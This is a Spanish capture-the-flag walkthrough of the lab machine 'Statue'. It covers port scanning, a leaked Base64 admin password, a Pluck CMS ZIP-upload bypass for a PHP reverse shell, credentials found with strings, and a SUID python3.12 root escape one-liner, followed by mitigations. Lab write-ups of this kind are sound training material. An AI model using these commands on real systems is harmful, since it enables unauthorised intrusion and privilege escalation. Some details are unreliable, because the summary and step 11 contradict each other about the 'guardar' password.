## Información General

| Campo               | Detalle                     |
| ------------------- | --------------------------- |
| Plataforma          | TheHackersLabs              |
| Máquina             | Statue                      |
| Dificultad          | Facil/Medio                 |
| Sistema Operativo   | Linux (Ubuntu)              |
| IP Atacante         | 192.168.241.130             |
| Servicios Expuestos | SSH (22), HTTP (80)         |
| Fecha               | 25-29 de septiembre de 2026 |

---

## Resumen del Ataque

La máquina expone un CMS **Pluck 4.7.18** en el puerto 80. A través de un `robots.txt` y un `README.md` accesibles se obtiene una cadena cifrada en Base64 anidado (17 capas) que revela la contraseña `fideicomiso` del panel de administración de Pluck. Desde el panel se sube un ZIP con una webshell (bypass de la restricción de subida de Pluck), lográndose ejecución remota de comandos como `www-data`.

Dentro del sistema, un archivo `pass.txt` en el home de `Charles-Wheatstone` contiene otra cadena Base64 (16 capas) cifrada además con el algoritmo **Playfair**, cuya clave (`guardar`) resulta ser un callejón sin salida para el movimiento lateral directo. El vector real hacia el usuario `juan` está en un binario (`binario`) en el home de `charles`, cuyas cadenas de texto (extraídas con `strings`) revelan las credenciales `juan:generador`.

Finalmente, `juan` tiene permisos de sudo/SUID sobre `/usr/bin/python3.12`, lo que permite escapar a una shell de `bash -p` como **root**.

---

## Técnicas Usadas

- Reconocimiento de puertos con Nmap (`-p-` y `-sC -sV`)
- Enumeración de directorios web con Gobuster
- Explotación de CMS Pluck (fuga de credenciales vía README + bypass de subida de archivos → RCE)
- Decodificación de Base64 anidado (múltiples capas)
- Reverse shell (Pentestmonkey PHP)
- Estabilización de TTY (`script` + `stty` + `reset`)
- Análisis de binario ELF con `strings` (credenciales embebidas)
- Cifrado Playfair (intento de descifrado, descartado)
- Escalada de privilegios vía binario SUID `python3.12`

---

## Desarrollo

**1. Escaneo de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.193
```



**2. Enumeración de versiones de servicio**

```
nmap -p 22,80 -sC -sV -oN allport 192.168.241.193
```



Se identifica el CMS **Pluck 4.7.18** y una redirección a `statue.thl`.

**3. Resolución de nombre y exploración del CMS**

Se añade `statue.thl` a `/etc/hosts`.

```
http://statue.thl/?file=rodgar
```

En la parte inferior de la página se localiza un enlace al panel de administración, confirmándose la versión **Pluck 4.7.18**.





**4. Enumeración de directorios**

```
gobuster dir -u http://statue.thl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,md,txt -t 125
```



`robots.txt` bloqueaba `/data/` y `/docs/` en los buscadores, pero ambos rutas eran accesibles directamente, y el `README.md` resultó ser el hilo del que tirar.

**5. Fuga de credenciales en README.md**

```
http://statue.thl/README.md
```



El archivo contiene un bloque Base64 que, tras 17 decodificaciones sucesivas en `base64decode.org`, revela la contraseña:

```
fideicomiso
```

**6. Acceso al panel de administración de Pluck**

```
http://statue.thl/login.php
```

Con la contraseña `fideicomiso` se accede al panel de administración.



**7. RCE vía subida de ZIP (bypass de restricción de Pluck)**

Según un exploit público (ExploitDB) para Pluck, es posible subir un archivo ZIP al directorio `data` desde **Options > Manager Modules > Install Module**, evitando así el filtro de extensiones que bloquea la subida directa de `.php`.



Se prepara una reverse shell PHP (Pentestmonkey) y se empaqueta:

```
zip shell.zip shell.php 
```

Se sube el ZIP a través del panel:


Se pone en escucha el atacante:

```
nc -lvnp 1234
```



**8. Estabilización de la TTY**

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@TheHackersLabs-Statue:/home$ whoami
```



**9. Enumeración del sistema de archivos web**

```
www-data@TheHackersLabs-Statue:/$ cd var
www-data@TheHackersLabs-Statue:/var$ cd www
www-data@TheHackersLabs-Statue:/var/www$ cd Charles-Wheatstone/
www-data@TheHackersLabs-Statue:/var/www/Charles-Wheatstone$ cat pass.txt 
```



https://www.base64decode.org/

La clave (`Key`), tras **16 decodificaciones Base64**, resulta ser la palabra:

```
guardar
```

Buscando en Google el nombre "Charles-Wheatstone" se confirma que se le atribuye la invención del cifrado **Playfair**, lo que sugiere que `guardar` es la clave Playfair para descifrar `KIBPKSAFMTOIQL`.





**10. Intento de descifrado Playfair (vía descartada)**

Se introduce el texto `KIBPKSAFMTOIQL` con la palabra clave `guardar` en una herramienta online de Playfair, acción "descifrar".



**Resultado:** el texto obtenido es incomprensible y no aporta ninguna credencial ni pista aprovechable. Esta vía se descarta como callejón sin salida y se continúa la enumeración por otro camino.

**11. Movimiento lateral a `charles`**

Se listan los usuarios del sistema y se prueba la contraseña `guardar` directamente sobre el usuario `charles` (en vez de como clave Playfair):

```
www-data@TheHackersLabs-Statue:/var/www/Charles-Wheatstone$ cd /home
www-data@TheHackersLabs-Statue:/home$ ls
```



```
www-data@TheHackersLabs-Statue:/home$ su charles
```

```
charles@TheHackersLabs-Statue:~$ whoami
```



**12. Análisis del binario `binario`**

```
charles@TheHackersLabs-Statue:~$ cd binario
```



Se ejecuta el binario:

```
charles@TheHackersLabs-Statue:~$ ./binario 
```



Extracción de cadenas:

```
charles@TheHackersLabs-Statue:~$ strings binario
```



Entre las cadenas embebidas en el binario aparecen, seguidas, `juan` y `generador`: unas credenciales en claro dejadas por el desarrollador del reto.

**13. Movimiento lateral a juan**

```
charles@TheHackersLabs-Statue:~$ su juan
```

```
juan@TheHackersLabs-Statue:/home/charles$ whoami
```



**14. Escalada de privilegios a root**

Se buscan binarios con el bit SUID activo:

```
juan@TheHackersLabs-Statue:/home/charles$ find / -perm -4000 -type f 2>/dev/null
```



`/usr/bin/python3.12` con SUID permite escapar directamente a una shell privilegiada:

```
juan@TheHackersLabs-Statue:/home/charles$ /usr/bin/python3.12 -c 'import os;os.execl("/bin/bash","bash","-p")'
```

```
bash-5.2# whoami
```



**15. Captura de flags**

```
bash-5.2# cat user.txt 
```



```
bash-5.2# cd /root
bash-5.2# cat root.txt 
```



## Lecciones Aprendidas

- Los archivos aparentemente inocuos como `README.md` en la raíz de un CMS pueden filtrar credenciales cifradas; conviene revisarlos siempre en la fase de enumeración web.
- `robots.txt` no es un control de acceso: solo indica a los buscadores qué no indexar, pero las rutas siguen siendo accesibles directamente.
- Los filtros de subida de archivos basados solo en la extensión (bloquear `.php` pero permitir `.zip`) son triviales de eludir si la aplicación descomprime el ZIP dentro de un directorio ejecutable por el servidor web.
- No toda pista críptica apunta al vector correcto: el nombre `Charles-Wheatstone` sugería fuertemente Playfair, pero era una pista señuelo (rabbit hole); la clave real (`guardar`) funcionaba como contraseña directa de usuario, no como clave de cifrado.
- Los binarios compilados dejados en el sistema pueden contener credenciales en texto plano recuperables con `strings`, incluso si el propio programa "encripta" su salida en tiempo de ejecución.
- Los binarios con bit SUID que permiten ejecutar comandos arbitrarios (como un intérprete completo, `python3.12`) son una vía de escalada a root inmediata y deben auditarse siempre.

## Medidas de Mitigación

- No dejar credenciales, aunque estén codificadas en Base64, en archivos accesibles públicamente (`README.md`, comentarios, backups).
- Restringir la subida de archivos en CMS como Pluck validando el contenido real (magic bytes) y no permitir la ejecución de scripts en el directorio de subidas (`data/`), por ejemplo mediante `php_admin_flag engine off` o separación de dominios/estructura de directorios.
- Eliminar o revocar el permiso SUID de intérpretes de propósito general (`python3.12`, `perl`, etc.) salvo que sea estrictamente necesario para la operación del sistema.
- No embeber credenciales en binarios compilados, ni siquiera como parte de un reto o "flag" intermedio, sin ofuscación real o cifrado en reposo.
- Aplicar el principio de mínimo privilegio: los usuarios de aplicación (`www-data`) no deberían tener acceso de lectura a directorios home de otros usuarios del sistema.